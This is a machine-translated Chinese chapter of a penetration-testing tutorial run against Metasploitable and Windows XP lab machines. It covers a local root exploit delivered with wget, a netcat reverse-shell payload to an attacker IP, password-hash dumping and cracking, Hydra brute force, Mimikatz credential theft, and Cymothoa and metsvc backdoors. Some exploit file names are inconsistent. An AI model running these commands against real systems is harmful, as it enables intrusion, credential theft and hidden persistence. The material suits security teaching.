# 权限提升和维护访问权限

在上一章中，我们利用漏洞扫描过程中发现的漏洞对目标机器进行了攻击。但是，利用系统进行攻击时的访问级别取决于所利用的服务。例如，如果您利用 web 应用程序中的漏洞进行攻击，您很可能拥有与运行该服务的帐户相同的访问级别；比如说，`www`数据。

在本章中，我们将升级对系统的访问，然后在我们失去连接或需要返回时，实施保持对受损系统访问的方法。

# 技术要求

本章要求在我们的系统上安装 Kali Linux、Metasploitable 2 和 Nmap。

# 特权升级

权限提升可以定义为利用漏洞获得对系统的提升访问权限的过程。

有两种类型的权限提升：

*   **垂直权限提升**：在这种类型中，具有较低权限的用户能够访问为具有最高权限的用户设计的应用程序功能，例如，用户能够访问系统管理员功能的内容管理系统。
*   **横向权限提升**：当一个普通用户能够访问为其他普通用户设计的功能时，就会发生这种情况。例如，在网上银行应用程序中，用户 A 能够访问用户 B 的菜单。

以下是可用于获得对目标的未经授权访问的权限提升向量：

*   地方功绩
*   利用可访问且包含允许访问其他计算机的 SSH 私钥的错误配置（如主目录）进行攻击
*   利用目标上的弱密码
*   嗅探网络流量以捕获凭据
*   欺骗网络数据包

# 局部升级

在本节中，我们将使用本地漏洞来提升我们的权限。

为了演示这一点，我们将使用以下虚拟机：

*   Metasploitable 2 作为我们的受害者机器
*   Kali Linux 作为我们的攻击机器

首先，我们将确定受害者机器上可用的开放网络服务。为此，我们通过以下命令使用 Nmap 端口扫描仪：

```
nmap -p- 172.16.43.156
```

我们将 Nmap 配置为使用`-p-`选项扫描所有端口（从端口`1`到端口`65,535`。

以下屏幕截图显示了上述命令的简要结果：



在互联网上做了一些研究后，我们发现`distccd`服务有一个漏洞，允许恶意用户执行任意命令。`distccd`服务用于跨类似配置的系统场扩展大型编译器作业。

接下来，我们在 Metasploit 中搜索，以确定它是否具有针对此易受攻击服务的漏洞：



从前面的屏幕截图中，我们可以看到 Metasploit 具有针对易受攻击的`distccd`服务的漏洞。

让我们尝试利用该服务，如以下屏幕截图所示：


我们可以利用该服务并发出操作系统命令来查找我们的权限：`daemon`。

下一步是探索该系统，以获取有关它的更多信息。现在，让我们看看通过发出以下命令使用的内核版本：

```
uname -r
```

使用的内核版本为`2.6.24-16-server`。

我们搜索了`exploit-db`数据库，发现了一个漏洞（[http://www.exploit-db.com/exploits/8572/](http://www.exploit-db.com/exploits/8572/) ）这将允许我们将我们的特权升级到`root`。然后，我们使用术语`udev`搜索 Kali Linux 漏洞，该术语与`exploit-db`网页中的漏洞匹配，使用以下命令：

```
searchsploit udev
```

此命令生成以下输出：


接下来，我们需要将此漏洞从攻击机器转移到受损机器。我们可以使用受损机器的`wget`命令来执行此操作。首先，我们将漏洞转移到我们机器上的文件夹中，受损机器将在其中查找该文件。通过键入以下命令，使用命令行复制该漏洞：

```
cp /usr/share/exploitdb/platforms/linux/local/857s.c /var/www/html
```

接下来，通过键入以下内容确保`apache2`服务器正在运行：

```
service apache2 start
```

我们可以使用受损机器上的`wget`命令从攻击机器下载该漏洞，该命令在攻击机器的`/var/www/html folder`中查找该文件：



成功下载该漏洞后，我们使用以下`gcc`命令在受害者机器上编译该漏洞：

```
gcc 8572.c -o 8572
```

现在我们的漏洞已经准备好使用了。从源代码中，我们发现该漏洞需要`udevd netlink`套接字的**进程标识符**（**PID**作为参数。我们可以通过发出以下命令获得此值：

```
cat /proc/net/netlink
```

以下屏幕截图显示了此命令的结果：



您还可以通过发出以下命令获取`udev`服务 PID`1`：

```
ps aux | grep udev
```

以下命令行屏幕截图是前面命令的结果：



在实际的渗透测试中，您可能希望设置一台与目标具有相同内核版本的测试机器来测试该漏洞。

从我们在受害者机器上收集的信息，我们知道这台机器安装了 Netcat。一旦漏洞运行，我们将使用 Netcat 连接回我们的机器，以便让我们以 root 用户身份访问受害者机器。根据攻击源代码信息，我们需要将有效负载保存在一个名为`run`的文件中：

```
echo '#!/bin/bash' > run echo '/bin/netcat -e /bin/bash 172.16.43.150 31337' >> run
```

我们还需要通过发出以下命令在攻击机器上启动 Netcat 侦听器：

```
nc -vv -l -p 31337
```

剩下要做的一件事是使用所需参数运行漏洞利用：

```
./8512.c 2675
```

在我们的攻击机器中，我们可以看到以下消息：


发出`whoami`命令后，我们可以看到我们已经成功地将权限升级到 root。

# 密码攻击工具

密码目前用作向系统验证用户身份的主要方法。在用户提交正确的用户名和密码后，系统将允许用户登录并根据授予该用户名的授权访问其功能。

以下三个因素可用于对身份验证类型进行分类：

*   **你知道的东西**：这通常被称为认证的第一要素。密码属于此类型。理论上，这一因素只应由授权人员知道。事实上，这一因素很容易被泄露或捕获；因此，不建议使用此方法对敏感系统的用户进行身份验证。
*   **您拥有的东西**：这通常被称为身份验证的第二个因素，该因素的示例包括安全令牌和卡。向系统证明您具有身份验证因素后，您就可以登录了。这一因素的缺点是容易导致克隆过程。
*   **你是什么**：这通常被称为认证的第三要素，例如生物特征和视网膜扫描。这个因素是最安全的，但是已经有一些针对这个因素的公开攻击。

为了更安全，人们通常使用不止一个因素。最常见的组合是使用认证的第一和第二个因素。由于这种组合使用两种身份验证因素，因此通常称为两种身份验证因素。

不幸的是，根据我们的渗透测试经验，基于密码的身份验证仍然被广泛使用。作为渗透测试人员，您应该在渗透测试过程中检查密码安全性。

根据密码攻击的方式，此过程可分为以下类型：

*   **离线攻击**：在这种方法中，攻击者从目标机器获取哈希文件，并将其复制到攻击者的机器上。然后，攻击者使用密码破解工具破解密码。使用此方法的优点是，攻击者不需要担心目标计算机中可用的密码阻止机制，因为该过程是在本地完成的。
*   **在线攻击**：在这种方法中，攻击者通过猜测凭据试图登录远程机器。在多次尝试猜测密码失败后，此技术可能会触发远程计算机阻止攻击者的计算机。

# 离线攻击工具

此类别中的工具用于脱机密码攻击。通常，这些工具用于执行垂直权限升级，因为您可能需要一个特权帐户来获取密码文件。

当您已经拥有特权凭据时，为什么还需要其他凭据？在系统上执行渗透测试时，您可能会发现特权帐户可能没有运行应用程序的配置。如果是这种情况，你不能测试它。但是，在以普通用户身份登录后，您就可以正确运行应用程序了。这是您需要获取其他凭据的原因之一。

另一种情况是，在利用 SQL 注入漏洞后，可以转储数据库并发现凭据是使用哈希存储的。为了帮助您从散列中获取信息，您可以使用此类别中的工具。

# 开膛手约翰

开膛手约翰（[http://www.openwall.com/john/](http://www.openwall.com/john/) 是一个可以用来破解密码散列的工具。目前，它可以破解 40 多种密码散列类型，如 DES、MD5、LM、NT、crypt、NETLM 和 NETNTLM。使用 John 而不是本章介绍的其他密码破解工具的原因之一是 John 能够使用 DES 和 crypt 加密算法。

要启动 John 工具，请使用控制台执行以下命令：

```
 # john
```

这将在屏幕上显示 John 的使用说明。

John 支持以下四种密码破解模式：

*   **字表模式**：在此模式下，您只需提供需要破解的字表文件和密码文件即可。单词列表文件是包含可能的密码的文本文件。每行只有一个单词。您还可以使用规则指示 John 根据规则修改单词列表中包含的单词。要使用 wordlist，只需使用`--wordlist=<wordlist_name>`选项。你可以创建自己的词表，也可以从其他人那里获得。有许多网站提供了单词列表。例如，Openwall 项目中有一个单词列表，可以从[下载 http://download.openwall.net/pub/wordlists/](http://download.openwall.net/pub/wordlists/) 。
*   **单裂纹模式**：该模式由 John 的作者提出，将首先试用。在此模式下，John 将使用登录名、全名字段和用户的主目录作为候选密码。然后，这些候选密码被用来破解他们从中获取的帐户的密码，或者用同样的盐破解密码散列。因此，它比 wordlist 模式快得多。
*   **增量模式**：在此模式下，John 将尝试所有可能的字符组合作为密码。虽然它是最强大的破解方法，但如果不设置终止条件，该过程将花费很长时间。终止条件的示例包括设置短密码限制和使用小字符集。要使用此模式，需要在 John 的配置文件中指定增量模式。预定义的模式有 All、Alnum、Alpha、Digits 和 Lanman，也可以定义自己的模式。
*   **外部模式**：使用此模式，您可以使用 John 使用的外部破解模式。您需要创建一个名为`[List.External:MODE]`的配置文件部分，其中`MODE`是您指定的名称。本节应包含在 C 编程语言子集中编程的函数。稍后，John 将编译并使用此模式。有关此模式的更多信息，请访问[http://www.openwall.com/john/doc/EXTERNAL.shtml](http://www.openwall.com/john/doc/EXTERNAL.shtml) 。

如果在命令行中没有将破解模式作为参数提供给 John，它将使用默认顺序。首先，它将使用单裂纹模式，然后是单词列表模式，然后使用增量模式。

在使用 John 之前，您需要获取密码文件。在 Unix 世界中，大多数系统使用`shadow`和`passwd`文件。您可能需要以 root 用户身份登录才能读取卷影文件。

获得密码文件后，需要合并这些文件，以便 John 可以使用它们。为了帮助您，John 为您提供了一个名为`unshadow`的工具。

下面是合并阴影文件和`passwd`文件的命令。为此，我使用 Metasploitable 2 虚拟机中的`/etc/shadow`和`/etc/passwd`文件，并将它们分别放在名为`etc-shadow`和`etc-passwd`的名为`pwd`的目录中：

```
# unshadow etc-passwd etc-shadow > pass
```

以下是`pass`文件内容的片段：

```
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:0:0:root:/root:/bin/bash
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:3:3:sys:/dev:/bin/sh
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:103:104::/home/klog:/bin/false
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:1001:1001:just a user,111,,:/home/user:/bin/bash
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:1002:1002:,,,:/home/service:/bin/bash
```

要破解密码文件，只需发出以下命令，`pass`是您刚刚生成的密码列表文件：

```
john pass
```

如果 John 破解了密码，它会将这些密码存储在`john.pot`文件中。要查看密码，可以发出以下命令：

```
john --show pass
```

在这种情况下，John 会快速破解密码，如以下屏幕截图所示：


下表是破解密码的列表：

| **用户名** | **密码** |
| `postgres` | `postgres` |
| `user` | `user` |
| `msfadmin` | `msfadmin` |
| `service` | `service` |
| `klog` | `123456789` |
| `sys` | `batman` |

在`pass`文件中列出的七个密码中，约翰设法破解了六个密码。只有`root`的密码不能立即破解。

如果要破解 Windows 密码，首先需要从 Windows 系统和 SAM 文件中以`pwdump`输出格式提取 Windows 密码哈希（LM 和/或 NTLM）。您可以咨询[http://www.openwall.com/passwords/microsoft-windows-nt-2000-xp-2003-vista-7#pwdump](http://www.openwall.com/passwords/microsoft-windows-nt-2000-xp-2003-vista-7#pwdump) 查看其中几个公用设施。其中一个是`samdump2`，由 Kali Linux 提供。

要使用`password.lst`字表破解从`samdump2`获得的 Windows 哈希，可以使用以下命令，获得的输出显示在以下屏幕截图上：

```
    # john test-sam.txt --wordlist=password.lst --format=nt
```



`password.lst`文件内容如下：

```
password01 
```

要查看结果，请发出以下命令：

```
    # john test-sam.txt --format=nt --show 
```

以下屏幕截图显示获得的密码片段：



John 能够获得 Windows 计算机的管理员密码，但无法破解`tedi`用户的密码。

如果 GUI 更适合你，那么 John 有一个图形界面，叫做 Johnny。

要启动 Johnny，请打开控制台并键入以下命令：

```
# johnny
```

然后你会看到约翰尼窗口。

以下屏幕截图显示了破解相同 Metasploitable 2 哈希的结果：



# 奥夫克拉克

Ophcrack 是一个基于彩虹表的密码破解程序，可用于破解 Windows LM 和 NTLM 密码哈希。它是一个命令行和图形用户界面程序。就像彩虹裂纹工具一样，Ophcrack 基于时间记忆折衷方法。

要启动`ophcrack`命令行，请使用控制台执行以下命令：

```
    # ophcrack-cli  
```

这将在屏幕上显示使用说明和示例。

要启动 GUI，请使用控制台执行以下命令：

```
    # ophcrack  
```

这将显示 GUI 页面。

在使用 Ophcrack 之前，您需要从 Ophcrack 站点（[中获取彩虹表 http://ophcrack.sourceforge.net/tables.php](http://ophcrack.sourceforge.net/tables.php) ）。目前，有三个表格可以免费下载：

*   **小型 XP 表**：这是一个 308MB 的压缩文件。它的成功率为 99.9%，包含数字、小写和大写字母的字符集。您可以从[下载 http://downloads.sourceforge.net/ophcrack/tables_xp_free_small.zip](http://downloads.sourceforge.net/ophcrack/tables_xp_free_small.zip) 。
*   **快速 XP 表**：与小型 XP 表具有相同的成功率和字符集，但比小型 XP 表更快。您可以从[获取 http://downloads.sourceforge.net/ophcrack/tables_xp_free_fast.zip](http://downloads.sourceforge.net/ophcrack/tables_xp_free_fast.zip) 。
*   **Vista table**：该表的成功率为 99.9%，目前基于字典中有变体的单词。这是一个 461 MB 的压缩文件。您可以从[获取 http://downloads.sourceforge.net/ophcrack/tables_vista_free.zip](http://downloads.sourceforge.net/ophcrack/tables_vista_free.zip) 。

作为一个例子，我们使用了`xp_free_fast`表，我提取了这些文件并将其放在`xp_free_small`目录中。Windows XP 密码哈希文件以`pwdump`格式存储在`test-sam`文件中。

我们使用以下命令来破解先前获得的 Windows 密码哈希：

```
    # ophcrack-cli -d fast -t fast -f test-sam
```

以下输出显示了开裂过程：

```
    Four hashes have been found in test-sam:
    Opened 4 table(s) from fast.
    0h  0m  0s; Found empty password for user tedi (NT hash #1)
    0h  0m  1s; Found password D01 for 2nd LM hash #0
    0h  0m 13s; Found password PASSWOR for 1st LM hash #0in table XP free fast #1 at column 4489.
    0h  0m 13s; Found password password01 for user Administrator (NT hash #0)
    0h  0m 13s; search (100%); tables: total 4, done 0, using 4; pwd found 2/2.

```

以下是`ophrack`的结果：

```
    Results:
    username / hash                  LM password    NT password
    Administrator                    PASSWORD01     password01
    tedi                             *** empty ***  *** empty ***

```

您可以看到，Ophcrack 能够获得相应用户的所有密码。

另一个工具是 RainbowCrack。在卡利，彩虹裂缝有三种工具：`rtgen`、`rtsort`和`rcrack`。

要使用 RainbowCrack 或 OphCrack 工具，您需要彩虹表。您可以在以下位置获得一些免费表格：

*   [http://www.freerainbowtables.com/en/tables/](http://www.freerainbowtables.com/en/tables/)
*   [http://rainbowtables.shmoo.com/](http://rainbowtables.shmoo.com/)
*   [http://ophcrack.sourceforge.net/tables.php](http://ophcrack.sourceforge.net/tables.php)

# samdump2

要从 Windows 2K/NT/XP/Vista SAM 数据库注册表文件中提取密码哈希，可以使用`samdump2`（[http://sourceforge.net/projects/ophcrack/files/samdump2/](https://sourceforge.net/projects/ophcrack/files/samdump2/) ）。使用`samdump2`时，您不需要先给出**系统密钥**（**系统密钥**）来获取密码散列。SysKey 是用于加密**安全帐户管理器**（**SAM**文件）中哈希的密钥。它是在 Windows NT Service Pack 3 中引入并启用的。

要启动`samdump2`，请使用控制台执行以下命令：

```
    # samdump2  
```

这将在屏幕上显示简单的使用说明。

有几种方法可以获取 Windows 密码哈希：

*   第一种方法是使用利用 Windows`system`和 SAM 文件的`samdump2`程序。它们位于`c:%windows%system32config`目录中。如果 Windows 正在运行，此文件夹将锁定所有帐户。为了克服这个问题，您需要启动一个 LinuxLiveCD，比如 KaliLinux，并装载包含 Windows 系统的磁盘分区。在此之后，您可以将系统和 SAM 文件复制到您的 Kali 机器。
*   第二种方法是使用 Windows 机器上的`pwdump`程序及其相关变体工具获取密码哈希文件。
*   第三种方法是使用 MeterMeter 脚本中的 hashdump 命令，如前一章所示。为了能够使用此方法，您需要利用系统并首先上载 MeterMeter 脚本。

在我们的练习中，我们将转储 Windows XP SP3 密码哈希。我们假设您已经拥有系统和 SAM 文件，并将它们作为 system 和`sam`存储在您的主目录中。

以下命令用于使用`samdump2`转储密码哈希：

```
    # samdump2 system sam -o test-sam
```

输出保存到`test-sam`文件中。以下为`test-sam`文件内容：

```
Administrator:500:e52cac67419a9a22c295285c92cd06b4:b2641aea8eb4c00ede89cd2b7c78f6fb::: 
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
HelpAssistant:1000:383b9c42d9d1900952ec0055e5b8eb7b:0b742054bda1d884809e12b10982360b::: 
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:a1d6e496780585e33a9ddd414755019a::: 
tedi:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
```

然后，您可以将`test-sam`文件提供给密码破解者，如 John 或 Ophcrack。

# 在线攻击工具

在上一节中，我们讨论了几种可用于在脱机模式下破解密码的工具。在本节中，我们将讨论连接到目标机器时必须使用的一些密码攻击工具。

我们将讨论可用于以下目的的工具：

*   生成单词表
*   查找密码哈希
*   在线密码攻击工具

前两个工具用于根据目标网站中收集的信息生成单词列表，而另一个工具用于搜索在线密码哈希服务数据库中的密码哈希。

在线密码攻击工具将尝试使用提供的凭据登录远程服务，就像用户登录一样。该工具将尝试多次登录，直到找到正确的凭据。

这种技术的缺点是，由于您直接连接到目标服务器，您的操作可能会被注意到并被阻止。此外，由于该工具使用登录过程，因此与脱机攻击工具相比，运行该工具所需的时间更长。

尽管该工具速度较慢，可能会触发阻塞机制，但通常无法使用脱机密码破解工具破解 SSH、Telnet 和 FTP 等网络服务。在进行在线密码攻击时，您可能需要非常小心；特别是，当您强制使用**Active Directory**（**AD**服务器）时，您可能会阻止所有用户帐户。您需要首先检查密码和锁定策略，然后对所有帐户只尝试一个密码，这样您就不会阻塞帐户。

# CeWL

**自定义词表**（**CeWL**（[http://www.digininja.org/projects/cewl.php](http://www.digininja.org/projects/cewl.php) ）生成器是一个工具，它将爬行目标**统一资源定位器**（**URL**），并创建在该 URL 上找到的单词的唯一列表。然后，密码破解工具（如裂土器约翰）可以使用此列表。

以下是 CeWL 中的几个有用选项：

*   `depth N`或`-d N`：将卡盘深度设置为`N`；默认值为`2`
*   `min_word_length N`或`-m N`：这是最小字长；默认长度为`3`
*   `verbose or -v`：这会给出详细的输出
*   `write or -w`：将输出写入文件

如果您在 Kali 中运行 CeWL 时遇到问题并显示错误消息`Error: zip/zip gem not installed`，请使用`gem install zip/zip`安装所需的 gem。要解决此问题，只需按照建议安装`zip gem`：

```
    gem install zip
    Fetching: zip-2.0.2.gem (100%)
    Successfully installed zip-2.0.2
    1 gem installed
    Installing ri documentation for zip-2.0.2...
    Installing RDoc documentation for zip-2.0.2...

```

让我们尝试从目标网站创建自定义单词列表。在本例中，我们将使用 Metasploitable 中的内置网站。要创建单词列表，请使用以下`cewl`命令：

```
    cewl -w metasploitable.txt http://172.16.43.156/mutillidae
```

一段时间后，将创建结果。在 Kali 中，输出存储在根目录中。

以下是`target.txt`文件的节略内容：

```
the 
Injection 
var 
and 
Storage 
Site 
Data 
User 
Log 
Info 
blog 
File 
HTML5 
Login 
Viewer
```

```
Lookup 
securityLevelDescription 
Mutillidae 
```

# 九头蛇

Hydra 是一个可以用来猜测或破解登录用户名和密码的工具。它支持多种网络协议，如 HTTP、FTP、POP3 和 SMB。它使用提供的用户名和密码工作，并尝试并行登录网络服务；默认情况下，它将使用 16 个到同一主机的连接登录。

要启动 Hydra，请使用控制台执行以下命令：

```
    # hydra  
```

这将在屏幕上显示 Hydra 使用说明。

在我们的练习中，我们将强制使用位于`172.16.43.156`的 VNC 服务器的密码，并使用`password.lst`文件中包含的密码。执行此操作的命令如下所示：

```
    # hydra -P password.lst 172.16.43.156 vnc  
```

以下屏幕截图显示了此命令的结果：



从前面的屏幕截图中，我们可以看到 Hydra 能够找到 VNC 密码。目标服务器上使用的密码为`password01`和`password`。

要验证 Hydra 获得的密码是否正确，只需运行`vncviewer`到远程机器并使用找到的密码即可。

下面的屏幕截图显示了运行`vncviewer`的结果：


从前面的屏幕截图中，我们可以看到，我们能够使用破解的密码登录到 VNC 服务器，并且获得了 VNC 根凭据。好极了

除了使用 Hydra 命令行外，还可以通过执行以下命令来使用 Hydra GUI：

```
    # xhydra  
```

以下屏幕截图显示了运行 Hydra GTK 攻击目标上 SSH 服务的结果：



# 咪咪卡茨

Mimikatz 是一种开发后工具，旨在使 pentesters 能够在获得立足点后维护访问权限和泄露凭据。虽然是一个独立的程序，但它已成为 Metasploit 框架的一部分。Mimikatz 允许在受损系统中收集凭据，而无需离开 Metasploit 框架。一旦获得系统级访问权限，可使用以下命令在流量计外壳内启动 Mimikatz：

```
    meterpreter > load mimikatz  
```

加载 Mimikatz 后，键入以下命令以获得可用的不同命令列表：

```
    meterpreter > help mimikatz  
```

以下屏幕截图显示了输出：


有两种方法可以将 Mimikatz 与 Metasploit 一起使用。第一个是 Mimikatz 的全套功能。这些以`mimikatz_command`开头。例如，如果要从受损系统转储哈希，请键入以下命令：

```
    meterpreter > mimikatz_command -f sampdump::hashes  
```

这将产生以下输出：


另一个功能是能够在受损机器上搜索凭据。这里我们使用以下命令：

```
    meterpreter > mimikatz_command -f sekurlsa::searchPasswords  
```

输出显示了 Mimikatz 如何获得受损系统的`Administrator`密码：



Metasploit 还包含几个命令，这些命令利用 Mimikatz 执行攻击后活动。与 hash`dump`命令非常相似，以下命令将从受损系统中转储哈希：

```
    meterpreter > msv  
```

这将产生以下输出：



另一个利用 Mimikatz 的 Metasploit 命令是`Kerberos`命令，它将在受损机器上获取明文凭证：

```
    meterpreter > Kerberos  
```

然后，该命令生成以下输出：


# 维护访问权限

在将权限提升到目标机器之后，我们应该采取的下一步是创建一种机制来维护对目标机器的访问。因此，在将来，如果您利用的漏洞得到修补或关闭，您仍然可以访问系统。在对客户的系统执行此操作之前，您可能需要咨询客户。此外，在渗透测试期间，确保正确记录放置的所有后门，以便在测试后将其移除，这一点至关重要。

现在，让我们来看看一些可以帮助我们保持对目标机器的访问的工具。这些工具分类如下：

*   操作系统后门
*   掘进工具
*   网络后门

# 操作系统后门

简单地说，后门是一种允许我们保持对目标机器的访问的方法，而无需使用正常的身份验证过程，也不会被检测到。在本节中，我们将讨论几个可用作操作系统后门的工具。

# 虱属

**Cymothoa**是一个后门工具，允许您将其外壳代码注入现有流程。这样做的原因是把它伪装成一个常规过程。后门应该能够与注入进程共存，以免引起管理员的怀疑。将外壳代码注入到进程中还有另一个优点；如果目标系统具有仅监视可执行文件完整性但不执行内存检查的安全工具，则不会检测到进程的后门。

要运行 Cymothoa，只需键入以下命令：

```
    cymothoa  
```

您将看到 Cymothoa 助手页面。强制选项是要注入的**过程 ID**（**PID**）、`-p`和外壳代码编号`-s`。

要确定 PID，可以在目标机器中使用`ps`命令。您可以使用`-S`（列出可用外壳代码）选项确定外壳代码编号：


一旦破坏了目标，就可以将 Cymothoa 二进制文件复制到目标机器以生成后门。

当 Cymothoa 二进制文件在目标机器中可用后，您需要找出要注入的进程和外壳代码类型。

要列出 Linux 系统中正在运行的进程，我们可以使用带有`-aux`选项的`ps`命令。下面的屏幕截图显示了运行该命令的结果。输出中有几个列可用，但为此，我们只需要以下列：

*   `USER`（第一栏）
*   `PID`（第二栏）
*   `COMMAND`（第十一栏）


在本练习中，我们将注入`2765`（`udevd`）PID，并使用有效负载编号`1`。我们需要使用`-y`选项【端口号`4444`设置有效负载的端口号。以下是此场景的 Cymothoa 命令：

```
    ./cymothoa -p 2765 -s 1 -y 4444  
```

以下是此命令的结果：


让我们通过发出以下命令，尝试从另一台机器登录我们的后门（端口`4444`）：

```
    nc -nvv 172.31.99.244 4444  
```

这里，`172.31.99.244`是目标服务器的 IP 地址。

结果如下：


我们已经成功地连接到远程机器中的后门，并且我们能够向远程机器发出多个命令。

由于后门连接到正在运行的进程，您应该知道，在进程终止或远程计算机重新启动后，此后门将不可用。为此，您需要一个持久的后门。

# 仪表后门

Metasploit 流量计具有`metsvc`后门，可随时获取流量计外壳。

请注意，`metsvc`后门没有身份验证，因此任何可以访问后门端口的人都可以使用它。

例如，我们将使用 Windows XP 操作系统作为受害机器，其 IP 地址为`192.168.2.21`；我们的攻击机器的 IP 地址为`192.168.2.22`。

要启用`metsvc`后门，您首先需要利用系统并获取 MeterMeter 外壳。在此之后，使用 MeterMeter 的 migrate 命令将进程迁移到其他进程，例如`explorer.exe (2)`，这样即使受害者关闭了您的`payload (1)`，您仍然可以访问系统：


要安装`metsvc`服务，只需键入以下命令：

```
    run metsvc  
```

以下是该命令的结果：



现在让我们去受害者机器。后门在`C:Documents and SettingsAdministratorLocal SettingsTempPvtgZxEAL`处可用。

您可以在那里看到`metsvc`EXE 和 DLL 文件。现在，让我们重新启动受害者机器，看看后门是否能工作。

在攻击机器中，我们使用以下选项启动具有`metsvc`有效载荷的多处理器，如下所示：


设置完所有选项后，只需键入`execute`即可运行攻击：


